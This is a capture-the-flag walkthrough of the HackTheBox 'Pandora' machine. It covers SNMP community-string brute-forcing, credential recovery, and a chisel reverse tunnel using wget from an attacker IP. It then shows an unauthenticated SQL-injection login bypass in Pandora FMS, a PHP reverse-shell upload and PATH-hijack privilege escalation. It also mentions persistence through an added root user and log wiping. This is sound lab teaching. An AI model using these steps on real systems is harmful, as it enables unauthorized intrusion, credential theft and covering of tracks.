# [Pandora](https://app.hackthebox.com/machines/Pandora) by [TheCyberGeek](https://app.hackthebox.com/users/114053) & [dmw0ng](https://app.hackthebox.com/users/610173)

```bash
IP = 10.10.11.136*
Difficulty: Easy
Machine OS: Linux
Learning Platform: hackthebox.com
Finished on: Arch Linux
```

**Note: IP address may vary.*

## Brief Description

This machine showcases the SNMP(Simple Network Management Protocol) enumeration that can be found by using nmap and scanning using `-sU` switch to scan UDP ports. A tool named SNMPwalk can be used to extract information from SNMP server which gives us our first user to login at SSH server running on the machine. Logging in, we found out that there is a running service locally which is [Pandora FMS](https://pandorafms.com/en/). Searching through google, we found multiple vulnerabilities on Pandora FMS one of which is an unauthenticated SQL injection that will lead to login bypass. We found upload functionality on Pandora FMS and got a foothold of the machine. Enumerating the machine further more, we found that the PATH is misconfigured and can be used to escalate our privileges.

## **Reconnaissance**

### *Scoping and Preparation*

Connect to HackTheBox OpenVPN Server using:

* ``sudo openvpn {PATH_TO_OVPN_FILE}``

I used my tool [CTFRecon-Go](https://www.github.com/hambyhacks/CTFRecon-Go) to automate directory creation, port scanning, web directory brute-forcing and adding entry to `/etc/hosts` file.

* To download [CTFRecon-Go] using `git clone` and running it:

```bash
    1. git clone https://github.com/hambyhacks/CTFRecon-Go && cd CTFRecon-Go
    2. go build . 
    3. sudo ./CTFRecon-Go -d [DIRECTORY_NAME] -p [PLATFORM] -i [IP] -w [WORDLIST_TO_USE_FOR_GOBUSTER] #Platform refers to tryhackme or hackthebox (thm, htb respectively.)
```

* You can also download the release binary by using `go install` : `go install github.com/hambyhacks/CTFRecon-Go@latest`

To use `CTFRecon-Go` if installed using `go install`:

* `sudo CTFRecon-Go -d [DIRECTORY_NAME] -p [PLATFORM] -i [IP] -w [WORDLIST_TO_USE_FOR_GOBUSTER]`

*Side Note: CTFRecon-Go is not working for the moment and I am trying to fix it. You can still use your recon scripts (if you have one) or the standard way which you do your CTF machines like this.*

## External Enumeration

### *Preliminary Enumeration via nmap*

#### Table 1.1: nmap Results Summary (TCP)

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
22/tcp | open | SSH | *OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0 )*
80/tcp | open | HTTP | *Apache httpd 2.4.41 ((Ubuntu))*


#### Table 1.2: nmap Results Summary (UDP)

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
161/udp | open | SNMP | *SNMPv1 server; net-snmp SNMPv3 server (public)*



We found out that there is an SNMP service running on the machine by running nmap and scanning UDP ports.

To scan UDP ports in nmap:

* `sudo nmap -T4 -sU [IP]`

*Explanation: runs UDP nmap scan.*

Running UDP scan will take a long time so I did not include `-p-` switch.

Let's now look at the webpage running at port 80.

### Web Enumeration



Looking around the webpage, there is not much we can do. We can also look at the web technologies running on the web server by using the Firefox plugin, [Wapplayzer](https://www.wappalyzer.com/).


There is also not much of new information we found using `wapplayzer`. Let's try to look at the source code of the webpage.



We found the `/assets` directory. We can look further by looking at the `/js` directory.


Only 1 file is of our interest which is the `main.js` file. Let's look on its contents.





I can't read much of javascript files so I think this is not helpful for me and moved on to find more information.

Let's look back at the `SNMP` service running on the machine and see if we can find some useful information.

### Content Discovery

After I found out that the machine is running `SNMP` service, I immediately recalled the walkthrough video of [Pit](https://www.youtube.com/watch?v=IF5uhe1qR2I) by [Ippsec](https://www.youtube.com/c/ippsec) which features the tool `SNMPwalk`. Using this tool, we can extract more information about SNMP.

First piece of information we need to run `SNMPwalk` is the **community string**, which is essential to query SNMP.

One of my favorite resource when comes to practicing HTB and THM is <https://books.hacktricks.xyz>. I found here that we can brute-force the **community string** using `hydra`!



To find the brute-force the **community string**:

* `hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt [IP] snmp`

*Explanation: brute-forces the snmp service to find the community string.*


Nice! We can now use `SNMPwalk` to query the SNMP server.



To use `SNMPwalk`:

* `snmpwalk -v 1 -c [community_string] [IP]`

*Explanation: runs snmpwalk specifying the version to 1 with given community string and IP.*

We run `SNMPwalk` with `-v 1` switch because if we look back again in the UDP nmap scan, the SNMP server is running `v1`.

We can redirect the output of `SNMPwalk` to a file so we can see the output in a convinient way.

To redirect stdout to a file:

* `snmpwalk -v 1 -c [community_string] [IP] > [output_file]`


Let's open the file in your preferred text editor (*in this case I used leafpad*).



Sweet! We found credentials on `SNMPwalk` output! Knowing that the SSH port is open, we can try these credentials are vaild.

## Exploitation

Using the credentials we found on the `SNMPwalk` output, we are now logged in the machine as `daniel`.


Enumerating on the machine, We found out that `daniel` is a low-privileged user on the machine and also found out that there is another user in the machine named `matt`.


I also looked at the directory `/var/www/` and found out that there is a directory named `/pandora`. Let's look inside this directory.


There is a directory named `/pandora_console`. Let's look further more.



I tried to search in Google about pandora console but it gives [this](https://www.google.com/search?client=firefox-b-d&q=pandora+console) search result.

Let's look for the content of the files so we can understand more.



We can now search for Pandora FMS through Google if it is the same as the search result we found earlier.



That search result seems more compelling to me. Looking at the text from the search result, Pandora FMS is a software for monitoring computer networks.

In `/var/www` directory, we have seen that there is a directory named `/pandora_console`. Let's try if we can navigate to that directory in the webserver.



Seems like the `/pandora_console` is only accessible locally.

Let's upload a tool named `chisel` to create a port forward and access the local service on our attacking machine.

To upload in a remote machine:

*Attacking machine:*

* Navigate to the directory where `chisel` resides.

* Set up `python` http server.

* `python3 -m http.server [port_of_your_choice]`

*Victim's machine:*

* `wget http://[Attacker_IP]:[listening_port]/chisel; chmod +x chisel`

*Explanation: Attacker sets up python3 http server and downloaded the `chisel` binary and made it executable.*

To create a remote port forward using `chisel`:

*Attacking Machine:*

* `sudo chisel -p [port] -reverse`

*Victim's Machine:*

* `./chisel client [attacker's_ip]:[attacker's_listening_port] R:[victim's_local_port]:127.0.0.1:[victim's_target_port]`

*Explanation: Attacker opens up a listening port to create a reverse proxy and the compromised machine connects back to the attacker's listening port.*

In this setup, we should be able to access the `/pandora_console` on our attacking machine.


It seems we have a login page on `/pandora_console`. I tried to use basic credentials and SQL injection but to no avail. On the bottom of the login page, we can see which version Pandora FMS is running (*in this case v7.0NG.742_FIX_PERL2020*).



Let's look it up on Google to see if this version of Pandora FMS has a known CVEs. To my surprise, Pandora FMS has 4 code vulnerabilities. This [blog](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) focuses on the explanation of Unauthenticated SQL injection on `chart_generator.php` which can lead to user impersonation including administrator account using its user ID. You can read more of the explanation about the CVE in the said blog.

Now we have the knowledge about the CVE, we can try to verify the information we got from reading the blog.



Nice! We have verified the information and all we need is to construct a SQL query to bypass the login and have access to the dashboard.

I searched through Google for a working PoC (Proof-of-Concept) and I found [this](https://github.com/l3eol3eo/CVE-2021-32099_SQLi) github repository. I copied the SQL query and pasted it in the URL search bar, refreshed the page and we bypassed the authentication.




Got stucked here for a little while but I found file upload functionality on the Pandora FMS dashboard in `/pandora_console/index.php?sec=gextensions&sec2=godmode/setup/file_manager`. We can try to upload a simple `.php` file to verify if we can execute the `.php` file we uploaded. I got tired and uploaded a full reverse shell on the webpage. Also looking on the `/file_manager`, we can see that the files are on `/images` directory.


Notice that `Index of images`, let's try to navigate to that directory.



Let's now upload the reverse shell file we got from [PentestMonkey's Github Repository](https://github.com/pentestmonkey/php-reverse-shell).

**Note: Change the IP and Port to fit your assigned IP and desired port.**

Open up a `netcat` listener that matches your assigned port on the reverse shell file.

To open up a `netcat` listener:

* `nc -lvnp [port]`

Execute the `shell.php` file we just uploaded and see if we got our reverse shell connection back.


### Table 1.3: Credentials

Username | Password
:---: | :---:
daniel | HotelBabylon23

## Post-Exploitation

### *Internal Enumeration*

#### Table 1.3: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -user root -perm -u+s 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)
``whoami && id`` | prints `effective userid` (EUID) and prints `real` and `effective userid` and `groupids` (GID).
``cat /etc/crontab`` | checks for cron jobs.

*Notes: For more information about the commands look [here](https://explainshell.com)*

*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

Looking at `matt`'s home directory, we noticed that he does not `SSH` keys. We can generate `SSH` keys for `matt` to stabilize our shell. We can use `ssh-keygen` to do this.

To generate `SSH` keys:

* `ssh-keygen` 

*Note: I didn't set the password in generating ssh keys for matt but you can set it if you wish.*

We also need to create a file named `authorized_keys` for the machine to accept/recognize SSH connection. More of the explanation is found [here](https://www.ssh.com/academy/ssh/authorized-keys-file).


Also, set the permissions of the `authorized_keys` file to `644`.


To create `authorized_keys` and set its permissions to `644`:

Inside the `.ssh` folder,

* `touch authorized_keys`

* `chmod 644 authorized_keys`

Now we have `authorized_keys` file configured, we need to append the `public SSH key` of `matt` to `authorized_keys`.


To append `id_rsa.pub` to `authorized_keys` (assuming you are still in the `.ssh` directory):

* `echo $(cat id_rsa.pub) >> authorized_keys`

*Note: We can just simplify this by doing `cat id_rsa.pub >> authorized_keys`.*

*Explanation: Echo and append the result of `cat` command to `authorized_keys` file.*

Copy the `Private SSH key` of `matt` to our attacking machine and change its permission to `600`.

To know more about the octal permissions, you can visit [this](https://docs.oracle.com/cd/E19504-01/802-5750/6i9g464pv/index.html) link.

Let's now try to login as `matt` using SSH.



### *Privilege Escalation*

Running our mini checklist from above, we first tried if there are `SUID` binaries.



There is a binary named `pandora_backup`. Let's try to look what this binary does.


It looks like the binary is using `tar` and running it as root.

Since the `pandora_backup` binary is running `tar` binary without using absolute path, we can abuse this by creating our own `tar` file and appending the directory we are currently on to the `PATH` variable. For more information, you can refer to this article: <https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e>.


To escalate our privileges:

1. `echo /bin/bash > tar`

2. `chmod +x tar`

3. `export PATH=$(pwd):$PATH`

4. `/usr/bin/pandora_backup`

*Explanation: added our current directory to PATH variable and created malicious `tar` file to be an executable. Running the binary `/usr/bin/pandora_backup` will result to **root** shell since the precedence of finding the executable binaries start from beginning of the `PATH` variable up to end.*

*Note: If there is something wrong about my explanation, feel free to message me and I will correct the erroneous explanations.*

To know more about `PATH` variable and how it finds executable binaries, refer to this forum: <https://superuser.com/questions/238987/how-does-unix-search-for-executable-files>.

### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

## Persistence

Copied the /etc/shadow file for user identification and their passwords.

Added another root user for easy access.

## Clearing Tracks

Removed all logs and footprints to to prevent risk of exposure of breach to security administrator.

## Status: Finished

Feel free to reach out and if there is something wrong about the above post. Feedbacks are also appreciated! :D

## Donation Box

Not required but appreciated! :D

[](https://ko-fi.com/hambyhaxx)

[](https://www.buymeacoffee.com/hambyhaxx)

### Socials

* [Twitter](https://twitter.com/hambyhaxx)

* [Medium](https://hambyhaxx.medium.com)

* [Hashnode](https://hambyhacks.hashnode.dev)

<-- [Go Back](https://hambyhacks.github.io)
